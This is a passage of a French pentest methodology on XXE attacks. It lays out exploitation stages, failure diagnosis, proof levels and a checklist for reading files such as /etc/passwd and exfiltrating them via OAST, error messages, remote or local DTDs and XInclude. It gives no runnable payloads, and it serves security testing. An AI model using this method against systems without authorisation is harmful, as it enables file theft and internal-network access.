2. **Primitive technique** : mécanisme de résolution confirmé (entité externe classique ou paramètre, ou XInclude) permettant de déclencher une lecture de fichier ou une requête réseau.
3. **Déclenchement** : soumission du document contenant la déclaration malveillante au parseur vulnérable.
4. **Effet intermédiaire** : résolution effective de la ressource ciblée par le parseur, confirmée par un canal quelconque (réponse visible, interaction OAST, message d'erreur).
5. **Aboutissement** : contenu de la ressource ciblée effectivement extrait et lisible par l'attaquant, via le canal disponible le plus efficace parmi ceux confirmés.
6. **Preuve** : contenu obtenu, vérifiable et reproductible, ou interaction OAST avec adresse IP source confirmée.

| Étape | Résultat requis | Comment le vérifier | Si cela échoue |
|---|---|---|---|
| Point d'entrée | Surface confirmée comme traitant un document XML influençable | Document avec `DOCTYPE` accepté sans rejet, ou fragment XInclude inséré avec succès | Tester les surfaces cachées (étape 8) avant d'abandonner |
| Primitive technique | Résolution d'entité (ou XInclude) confirmée par au moins un canal | Signal positif sur l'une des étapes 1, 3, 4, 5, 6, ou 7 | Tester systématiquement chaque famille sans présumer qu'un échec sur l'une implique l'échec des autres |
| Déclenchement | Requête reproductible produisant systématiquement le même résultat | Répéter le test et confirmer la constance | Vérifier la stabilité (cache, comportement du parseur) |
| Effet intermédiaire | Résolution confirmée indépendamment de l'exfiltration complète | Interaction OAST reçue, ou trace dans un message d'erreur | Si seule la résolution est confirmée sans exfiltration possible, documenter ce niveau de preuve précisément |
| Aboutissement | Contenu effectivement extrait et lisible | Comparaison avec un contenu de fichier connu ou attendu | Adapter le canal d'exfiltration (erreur → DTD distant → DTD local) selon les contraintes de la cible |
| Preuve | Preuve reproductible et minimale de l'impact | Capture de la requête et de la réponse/interaction pour chaque étape confirmée | Documenter le niveau de preuve atteint (déclenchement / vulnérabilité démontrée / impact précis atteint) |

---

## 7. Diagnostic des échecs

| Symptôme observé | Causes possibles | Comment les distinguer | Test de diagnostic | Suite logique |
|---|---|---|---|---|
| `DOCTYPE` provoque un rejet systématique du document | Filtrage explicite du `DOCTYPE`, ou simple erreur de validation de schéma XML sans lien avec la sécurité | Tester un document minimal avec `DOCTYPE` mais sans entité externe pour isoler la cause | Comparer le comportement entre un `DOCTYPE` vide et un `DOCTYPE` avec entité | Si même un `DOCTYPE` vide est rejeté, le blocage n'est pas spécifiquement lié aux entités mais au `DOCTYPE` lui-même — tester XInclude (étape 7), indépendant du `DOCTYPE` |
| Entité classique résolue en interaction OAST mais entité paramètre sans effet (ou l'inverse) | Filtrage ciblant spécifiquement l'une des deux syntaxes | Comparer explicitement les deux formes sur le même point d'injection | Tester systématiquement les deux syntaxes avant de choisir la technique d'exfiltration suivante | Utiliser la syntaxe non filtrée pour toute la suite de la démarche (étapes 4 à 6 reposent sur les entités paramètre) |
| Interaction OAST confirmée mais aucune exfiltration de contenu possible | Message d'erreur masqué en production, et connexion sortante limitée à une simple résolution sans transfert de contenu complexe | Tester explicitement le DTD distant (étape 5) avec un fichier simple à une ligne avant de conclure | Isoler la cause précise de l'échec du DTD distant (chargement initial vs requête d'exfiltration finale) | Si le chargement initial échoue, revérifier la confirmation OAST de base sur ce point d'injection précis |
| DTD distant chargé mais exfiltration tronquée ou vide | Caractères spéciaux ou retours à la ligne dans le fichier ciblé incompatibles avec le canal URL | Retester avec un fichier connu comme simple et sur une seule ligne (`/etc/hostname`) | Comparer le résultat entre le fichier complexe initial et le fichier simple de test | Si le fichier simple fonctionne, documenter la limite technique précisément plutôt que conclure à un échec de la méthode |
| Aucune des quatre approches Blind (OAST, erreur, DTD distant, DTD local) ne fonctionne | Soit le parseur ne résout réellement aucune entité externe (protection effective), soit toutes les conditions environnementales nécessaires font simultanément défaut | Revérifier chaque prérequis indépendamment (connexion sortante, visibilité des erreurs, DTD local disponible) | Tester une interaction OAST sur un point d'injection distinct de l'application si plusieurs existent | Si tous les points d'injection échouent sur toutes les techniques, documenter une protection probablement robuste au niveau du parseur |
| XInclude sans effet alors que les entités classiques fonctionnent par ailleurs | XInclude désactivé indépendamment de la résolution d'entités (fonctionnalité distincte) | Comparer le résultat de cette variante à celui obtenu sur les entités classiques (étape 1), ces deux résultats étant indépendants | Confirmer qu'aucune des deux variantes ne dépend du résultat de l'autre avant de conclure | Documenter XInclude comme désactivé spécifiquement, sans remettre en cause la résolution d'entités confirmée par ailleurs |

**Principe de diagnostic** : avant de conclure à l'absence de XXE sur un point d'entrée, vérifier que les quatre approches Blind (OAST, erreur, DTD distant, DTD local) et la variante XInclude ont été testées indépendamment, chacune reposant sur des conditions distinctes (connexion sortante, visibilité des erreurs, disponibilité d'un DTD local, activation de XInclude), et ne jamais généraliser l'échec de l'une aux autres.

---

## 8. Vérification de l'exploitation et preuve de l'impact

**Résultat final attendu** selon la variante confirmée :

- *XXE classique* : contenu d'un fichier local ou d'une ressource réseau effectivement lisible dans la réponse.
- *SSRF via XXE* : contenu de la ressource interne ciblée (retour visible) ou preuve indirecte d'une requête effectivement émise (retour aveugle).
- *Blind XXE* : résolution confirmée par OAST, complétée si possible par une exfiltration effective via erreur ou DTD distant/local.
- *XInclude* : contenu de la ressource ciblée inclus dans la réponse, sans nécessiter de `DOCTYPE`.

**Éléments techniques de confirmation :**

- Pour une interaction OAST, vérifier explicitement que l'adresse IP source correspond à l'infrastructure de la cible.
- Pour un contenu de fichier extrait, confirmer sa cohérence avec le format attendu du fichier ciblé (ex. structure attendue de `/etc/passwd`), excluant un contenu généré de façon indépendante.
- Distinguer précisément, pour chaque test, lequel des trois niveaux a été atteint : déclenchement du comportement (résolution tentée), démonstration de la vulnérabilité (preuve exploitable de la résolution), ou impact de sécurité précis (exfiltration effective et complète).

**Contrôles pour exclure une explication alternative :**

- Vérifier que le résultat obtenu n'est pas reproductible sans l'entité injectée (document de référence sans `DOCTYPE` produisant un résultat différent).
- Pour une exfiltration par message d'erreur, confirmer que le contenu retourné correspond précisément au fichier ciblé et non à un message d'erreur générique ressemblant par coïncidence.

**Distinction entre niveaux de preuve :**

- **Comportement déclenché** : le parseur tente de résoudre une entité externe, confirmé par une simple interaction OAST, sans qu'aucune donnée ne soit lue.
- **Vulnérabilité démontrée** : une preuve exploitable que la résolution a eu lieu est obtenue (interaction DNS/HTTP observée, message d'erreur révélateur).
- **Impact précis atteint** : le contenu d'un fichier sensible est effectivement exfiltré, ce qui suppose en plus un canal de sortie fonctionnel et un contenu compatible avec ce canal.

**Limites des observations :**

- Le cours souligne explicitement que l'impact concret dépend de ce que le serveur peut réellement atteindre (fichiers accessibles, réseau interne joignable), pas uniquement de la présence du défaut de configuration : deux applications présentant le même défaut peuvent avoir un risque très différent selon l'architecture environnante.
- La preuve doit rester minimale et proportionnée : la lecture d'un fichier de test standard ou la confirmation d'une interaction OAST suffit généralement à démontrer la vulnérabilité, sans nécessiter l'exfiltration complète d'un fichier sensible réel hors des limites explicitement autorisées du test.

---

## 9. Checklist opérationnelle

**Prérequis**

- [ ] Nature du contrôle disponible déterminée pour chaque point d'entrée (document complet avec `DOCTYPE` possible, ou fragment seul nécessitant XInclude).
- [ ] Visibilité des messages d'erreur du parseur vérifiée sur une entrée invalide anodine.
- [ ] Possibilité d'une connexion sortante évaluée (déterminante pour le choix entre OAST/DTD distant et messages d'erreur/DTD local).

**Reconnaissance**

- [ ] Chaque nœud XML réutilisé dans la réponse recensé comme surface distincte, pas uniquement le premier champ testé.
- [ ] Fonctionnalités d'upload de documents structurés (SVG, DOCX) recensées comme surfaces XML cachées.
- [ ] Endpoints non-XML testés avec un `Content-Type` modifié pour révéler une surface cachée.

**Premiers tests**

- [ ] Injection `DOCTYPE` + entité `SYSTEM file://` testée sur chaque nœud réutilisé identifié.
- [ ] Extension SSRF testée si une cible interne est suspectée.

**Validation des hypothèses**

- [ ] OAST testé avec entité classique, puis avec entité paramètre si la première échoue.
- [ ] Messages d'erreur testés comme canal d'exfiltration indépendant de la connexion sortante.
- [ ] DTD distant testé si une connexion sortante est confirmée, en privilégiant un fichier simple sur une ligne pour valider la technique avant d'exfiltrer un fichier complexe.
- [ ] DTD local envisagé uniquement après l'échec des trois autres approches Blind.
- [ ] XInclude testé indépendamment sur tout point d'entrée à contrôle partiel, sans présumer de son résultat à partir de celui des entités classiques.

**Construction de l'exploitation**

- [ ] Niveau de preuve atteint pour chaque technique explicitement distingué (déclenchement / démonstration / impact précis).
- [ ] Contenu extrait vérifié comme cohérent avec le format réel attendu du fichier ciblé.

**Vérification de l'impact**

- [ ] Architecture environnante prise en compte pour qualifier la gravité réelle (fichiers effectivement accessibles, réseau interne effectivement joignable), pas seulement la présence du défaut de configuration.
- [ ] Limites de chaque canal documentées (taille de message d'erreur, compatibilité caractères spéciaux pour le DTD distant, disponibilité d'un DTD local).

**Diagnostic si l'exploitation échoue**

- [ ] Les quatre approches Blind (OAST, erreur, DTD distant, DTD local) testées indépendamment avant de conclure à une protection robuste.
- [ ] XInclude testé séparément des entités classiques, son résultat n'impliquant rien sur l'autre variante.
- [ ] Surfaces cachées (upload, `Content-Type`) testées même si l'endpoint XML principal semble protégé.

---

## 10. Leçons transférables

**Principes de raisonnement réutilisables sur d'autres vulnérabilités :**

- Distinguer explicitement trois niveaux de preuve croissants (comportement déclenché, vulnérabilité démontrée, impact précis atteint) et ne jamais présenter le niveau intermédiaire comme une confirmation finale.
- Face à plusieurs mécanismes indépendants partageant une cause racine commune mais des conditions d'exploitation distinctes (ici quatre approches Blind), les tester systématiquement sans présumer qu'un échec sur l'un implique l'échec des autres.
- Une configuration sécurisée pour un composant (le parseur XML principal) n'implique jamais une sécurité automatique pour un composant distinct traitant le même type de données par une voie différente (bibliothèque de traitement SVG séparée, par exemple).
- Toujours rechercher les surfaces cachées (formats acceptés non documentés, fichiers embarquant le format ciblé) au-delà des points d'entrée explicitement documentés.

**Mécanismes techniques propres à cette vulnérabilité, à ne pas généraliser :**

- La distinction entre entités classiques et entités paramètre, et leur traitement différencié par certains filtres, est spécifique à la syntaxe XML et à l'implémentation du parseur, non généralisable à d'autres formats de données.
- La technique du DTD local dépend fortement de l'existence d'un fichier DTD compatible sur le système cible et du comportement précis du parseur, deux facteurs hors du contrôle de l'attaquant et non reproductibles d'une cible à l'autre.
- Les limites de transmission par URL (caractères spéciaux, retours à la ligne) sont propres au canal d'exfiltration par DTD distant et ne s'appliquent pas aux autres canaux (erreur, OAST simple).

**Hypothèses les plus faciles à confondre avec des certitudes :**

- La résolution confirmée d'une entité externe (via OAST) ne garantit pas la lecture effective et exfiltrée d'un fichier précis : la première démontre la vulnérabilité, la seconde démontre un impact concret, et ce sont deux preuves distinctes.
- Une connexion sortante libre est une condition fréquente en lab mais jamais une condition obligatoire pour toute exploitation : la variante par DTD local s'en passe entièrement.
- La désactivation de la résolution d'entités externes ne suffit pas systématiquement à neutraliser toute variante XXE : si XInclude reste activé, une variante distincte peut subsister indépendamment.

**Compétences pratiques à maîtriser pour exploiter cette vulnérabilité sans aide :**

- Construire et adapter un `DOCTYPE` malveillant selon le contexte de contrôle disponible (document complet vs fragment via XInclude).
- Choisir la technique d'exfiltration appropriée selon les conditions environnementales réellement vérifiées (connexion sortante, visibilité des erreurs, disponibilité d'un DTD local) plutôt que selon un ordre fixe indépendant du contexte.
- Construire un DTD combinant plusieurs entités paramètre pour une exfiltration réseau, en tenant compte des limites de caractères du canal utilisé.
- Identifier les surfaces XML cachées au-delà des endpoints explicitement documentés, notamment via les formats de fichiers bureautiques et la manipulation du `Content-Type`.
